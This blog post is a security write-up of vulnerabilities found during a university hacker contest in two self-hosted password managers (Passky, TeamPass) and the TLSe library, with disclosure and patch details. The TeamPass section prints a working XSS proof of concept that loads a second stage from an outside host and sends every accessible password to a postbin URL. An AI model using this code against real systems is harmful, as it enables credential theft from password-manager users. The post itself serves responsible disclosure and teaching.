









# Finding Security Vulnerabilities in Open-Source Repos

This winter semester I took part in the TU Darmstadt [Hacker
Contest](https://www.usd.de/abschluss-hacker-contest-wise-2023-2024/), where we had an exercise in which we had to find
security vulnerabilities in open source repositories. In this blog post I will share my findings. It's nothing crazy,
but it was still fun to find them. The results of the exercise were two XSS in [two](#passky) [different](#teampass) password managers by analysing the source code and an integer underflow in a [TLS server](#tlse) by fuzzing.

<div id="passky"></div>

## Passky

Passky, which is listed on the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers) is "the most unbloated password manager". It has
just under [200 Stars on GitHub](https://github.com/Rabbit-Company/Passky-Server) and also offers [paid premium accounts](https://passky.org/pricing).


### Vulnerability

Searching for `innerHTML` in the JavaScript code for the admin page immediately produces several
hits. The most promising is shown below.

<figure>
  <p> </p>
  <figcaption>
    <p>Figure 1: Injection user controlled input using innerHTML.</p>
  </figcaption>
</figure>

Here user controlled data is loaded as JSON and then injected into the HTML dom using `innerHTML`. The source of the email is the registration site where the user can register with an email. The email is then stored in the `createAccount` function within the `Database.php` file where the input is not XSS sanitized as shown below.

<div id="f2"></div>
<figure>
  <p> </p>
  <figcaption>
    <p>Figure 2: E-Mail sanitation</p>
  </figcaption>
</figure>

This leads to an XSS on the admin panel via a user controlled email.

### Exploit

To build an XSS exploit for this vulnerability, the following limitations need to be considered.

- ~74 character limit before \@ (the limit differs for different inputs)
- Only lowercase letters
- "[]" are not allowed
- Strong Content Security Policy

But with the help of a [fellow student](https://github.com/PatrickBidinger) we found a way to bypass these limitation using two stages (linebreaks in the email is just for formatting here):

```html
// Assign document.querySelector to the window with a shorter name as the email is limited to a short amount of chars

@test.de

// Get the first user (attackers one should be the last ones) and then call the function deleteAccount to delete the user

@test.de

// deleteAccount will reload the page and the payload is executed again until no user is left (exepct the attackers last one)
```

When the admin then opens the admin panel, it will list all users including their email addresses.
Since the JS-Code is not filtered or escaped properly, it will execute and delete the first user
account int he list. This triggers the page to reload, which again leads to the deletion of the next
user. After repeating this over and over again, all users but the malicious user accounts will be
deleted (including all of their data and stored passwords). 


<figure>
  <p> </p>
  <figcaption>
    <p>Figure 3: Deleting all the accounts.</p>
  </figcaption>
</figure>


### Responsible Disclosure

The vulnerability was reported via Discord to the main author. As patch I recommended the use of `htmlentities`:

```git
--- a/server/src/Database.php
+++ b/server/src/Database.php
@@ -319,7 +319,7 @@ class Database{
                if(!preg_match("/^[a-z0-9]{128}$/i", $password)) return Display::json(5);

                $username = strtolower($username);
-               $email = strtolower($email);
+               $email = htmlentities(strtolower($email));
                $encrypted_password = self::encryptPassword($password);

                switch(self::isUsernameTaken($username)){
```

The author fixed the issue within a day and his responses were fast. I was even offered a Bug Bounty of 100€.

### Patch

The author fixed the vulnerability with the commit [`10882e6`](https://github.com/Rabbit-Company/Passky-Server/commit/10882e6a0a1fd6b946ad4dc7deb20c71d5eaf0cf). He also found additional
places where the sanitation of the user input was not good enough.


<div id="teampass"></div>

## TeamPass 

As Passky [TeamPass](https://github.com/nilsteampassnet/TeamPass) was found via the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers). TeamPass has over 1700
Stars on GitHub and "is a Collaborative Passwords Manager solution installed On-Premise." 


### Vulnerability

The procedure was similar to Passky. I cloned the repo and search for the `innerHTML` sink. I found a place
where the password is injected using `innerHTML` but while trying out I have noticed that the
password is sanitized before it is stored in the database. But going through the code I found that
the `tags` are not `htmlspecialchars` encoded but decoded as shown below.


<figure>
  <p> </p>
  <figcaption>
    <p>Figure 4: Tags are htmlspecialchars_decode</p>
  </figcaption>
</figure>


The tags are then later injected using JQuery in a insecure way leading to an XSS.

<figure>
  <p> </p>
  <figcaption>
    <p>Figure 5: Tags are included insecurely</p>
  </figcaption>
</figure>


### Exploit

As TeamPass is a collaborative password manager an attacker could inject the XSS in a shared
password which is then executed in another users browser session allowing the attacker to extract
all passwords of this user. I also wrote a small POC which exfiltrates all passwords from another
user with higher privileges.

The first script of the exploit places the XSS by creating a script tag which includes a src
attribute where the next stage of the exploit is located as the tags have a length limit.

```js
function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}
var data = {
    "anyone_can_modify": 0,
    "complexity_level": 0,
    "description": "",
    "diffusion_list": [],
    "diffusion_list_names": [],
    "folder": 2,
    "email": "",
    "fields": [],
    "folder_is_personal": 0,
    "id": "",
    "label": "test",
    "login": "",
    "pw": "",
    "restricted_to": [],
    "restricted_to_roles": [],
    "tags": "<script\nsrc=http://tsmr.eu/_>",
    "template_id": null,
    "to_be_deleted_after_x_views": "",
    "url": "",
    "user_id": 10000000,
    "uploaded_file_id": "",
    "fa_icon": "",
    "otp_is_enabled": 0,
    "otp_phone_number": "",
    "otp_secret": ""
}


$.post(
    "sources/items.queries.php", {
    type: "update_item",
    data: prepareExchangedData(JSON.stringify(data), "encode", getKey()),
    key: getKey()
},
    function (data) {
        data = prepareExchangedData(data, "decode", getKey());
        console.log(data);
    }
)
```

The script which is then executed first loads a list of all passwords. It then sends a GET request to the attacker
controlled server on which the attacker can get the passwords as shown below.

<figure>
  <p> </p>
  <figcaption>
    <p>Figure 6: Passwords which where exfiltrate by the XSS</p>
  </figcaption>
</figure>


```js
// This POC script is loaded via the script tag and then loads all passwords and sends them to a postbin.

waiting_for_passwords = 0
stolenPasswords = {}

function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}

function getPassword(item_key, callback) {
    var key = getKey();
    $.ajax({
        type: "POST",
        async: false,
        url: 'sources/items.queries.php',
        data: 'type=show_item_password&item_key=' + item_key + '&key=' + key,
        dataType: "",
        success: function (data) {
            try {
                data = prepareExchangedData(data, "decode", key);
                callback(item_key, true, atob(data["password"]));
            } catch (e) {
                callback(item_key, false, null)
                return false;
            }
        },
        onerror: function () {
            callback(item_key, false, null)
        }
    });
}

function gotNewPassword(item_key, status, password) {
    stolenPasswords[item_key].password = password;
    stolenPasswords[item_key].password_status = status;
    waiting_for_passwords -= 1;
}

function getFolderIds() {
    return JSON.parse(localStorage["teampassApplication"]).foldersList.map((x) => x.id);
}


function loadFolderInfo(folderId, callback) {
    var key = getKey();
    var dataArray = {
        id: folderId,
        restricted: "",
        start: 0,
        uniqueLoadData: "",
        nb_items_to_display_once: 100000,
    };

    $.post('sources/items.queries.php', {
        type: 'do_items_list_in_folder',
        data: prepareExchangedData(JSON.stringify(dataArray), 'encode', key),
        key: key,
    },
        function (retData) {
            //get data
            data = decodeQueryReturn(retData, key, 'items.queries.php', 'do_items_list_in_folder');
            for (var item in data["html_json"]) {
                item = data["html_json"][item];
                stolenPasswords[item["item_key"]] = item;
                waiting_for_passwords += 1
                getPassword(item["item_key"], gotNewPassword);

            }
            callback()
        })
}

function recursiveLoadFolders(folderIds, finish) {
    if (folderIds.length == 0)
        return finish()
    let folderid = folderIds.pop();
    loadFolderInfo(folderid, () => {
        recursiveLoadFolders(folderIds, finish);
    })
}

var folderIds = getFolderIds();
recursiveLoadFolders(folderIds, () => {
    while (waiting_for_passwords != 0) { }
    as_json = JSON.stringify(Object.values(stolenPasswords))
    fetch("https://www.postb.in/1730158735475-0322664373088?" + as_json)
});
```

### Responsible Disclosure

Since my emails were ending up in spam with the main author and a main contributor, I asked in a [GitHub issue](https://github.com/nilsteampassnet/TeamPass/issues/4399#issuecomment-2468267771) if they could see the emails, they responded and quickly fixed the issue.


### Patch

The patch is straight forward as they only have to replace the decode with the encode function as shown below.

<figure>
  <p> </p>
  <figcaption>
    <p>Figure 7: Fix</p>
  </figcaption>
</figure>

The vulnerability was fixed with [PR 4457](https://github.com/nilsteampassnet/TeamPass/pull/4457).


<div id="tlse"></div>

## TLSe

[TLSe](https://github.com/eduardsui/tlse), which has over 500 Stars on GitHub is a "single C file TLS 1.3, 1.2, 1.1 and
1.0 (without the weak ciphers) implementation, using libtomcrypt as crypto library."

### Vulnerability

As my goal was to find a memory corruption a a small fuzzing environment was created where 5 different open source repos
written in C where fuzzed. The only crash was in the TLSe server which is described below.

TLSe repo multiple different harnesses where created, one for the TLS client hello, one for the TLS client certificate and one
for the ANSI parser.

As I am a Rustacean the harness was written in Rust - of course - for this [`afl.rs`](https://rust-fuzz.github.io/book/afl.html) was used. For this I compiled TLSe to a static library
and used bindgen to generate the header files for Rust so I am able to call the C functions in Rust. I created a small
helper crate which was responsible for setting up the server and sending the input buffer to the target.

```rust
pub struct FuzzServer {
    context: *mut TLSContext,
    fragmenting: bool
}

impl FuzzServer {

    pub fn new_tcp(fragmenting: bool) -> FuzzServer {
        unsafe {
            let context = SSL_CTX_new(SSLv3_server_method());
            let context = SSL_new(context);
            SSL_set_fd(context, -1); // socket is wrapped...
            FuzzServer {
                context, fragmenting
            }
        }
    }

    pub fn send_fuzzing_input_raw(&mut self, input: &mut [u8]) -> i32 {

        if self.fragmenting {
            todo!("Implement Logic to fragmenting the sending");
        }

        unsafe {tls_consume_stream(self.context, input.as_mut_ptr(), input.len() as c_int, None)}
    }

// ...
```

With theses helper functions multiple harnesses for the different targets like the Client Hello or the Client Certificate
Parse function shown below can be easily created.

```rust
#[macro_use]
extern crate afl;
use anyhow::{Result};
use mytlse::client::{FuzzServer};

fn execute_fuzz_target(buf: &[u8]) -> Result<(i32)> {
    let mut ret = 0;
    unsafe {
        let mut myserver = FuzzServer::new_tcp(false);
        let mut buf = buf.to_vec();
        ret = myserver.send_fuzzing_input_raw(&mut buf);
    }
    Ok((ret))
}

#[cfg(fuzzing)]
fn main() {
    fuzz!(|data: &[u8]| {
        execute_fuzz_target(data);
    });
}

#[cfg(not(fuzzing))]
fn main() {
    let client_hello = FuzzServer::get_client_hello();
    execute_fuzz_target(&client_hello).unwrap();
}
```

For the client certificate request the fuzzer found multiple crashes in a matter of minutes.


<figure>
  <p> </p>
  <figcaption>
    <p>Figure 8: AFL++ found multiple crashes.</p>
  </figcaption>
</figure>

After debugging the crashe could be identified as an integer underflow because of a wrong size check.

<figure>
  <p> </p>
  <figcaption>
    <p>Figure 9: Wrong size check leading to an integer underflow.</p>
  </figcaption>
</figure>

As shown Figure 9 the `size` variable is parsed from user-controlled input and then used
to subtract from the `remaining` variable. This leads to an integer overflow of the `remaining`
variable. This will cause the variable `res2` will get too big, leading to an `EXC_BAD_ACCESS` error
when `res2` is used to access data from `buf`.

### Exploit

With the crash file of the fuzzer it is possible to crash the target, but as the variable which is underflow is only
used to access data it is not possible to exploit it further.

### Responsible Disclosure

The crash was first reported via mail without any response (probably also landed in spam). After opening an [GitHub Issue](https://github.com/eduardsui/tlse/issues/105) the author responded directly and asking for an PR which fixes the issue. 

Which was done with [this](https://github.com/eduardsui/tlse/pull/106) PR.

### Patch

The patch is to change the comparison parameters to ensure that `size` is smaller then `remaining` before it is
subtracted from it.

<figure>
  <p> </p>
  <figcaption>
    <p>Figure 10: Fix.</p>
  </figcaption>
</figure>


## Conclusion

In conclusion, it was a great time searching for vulnerabilities in open-source repositories. The experience was made
even better by the quick responses from the maintainers, who are all dedicated to improving their projects.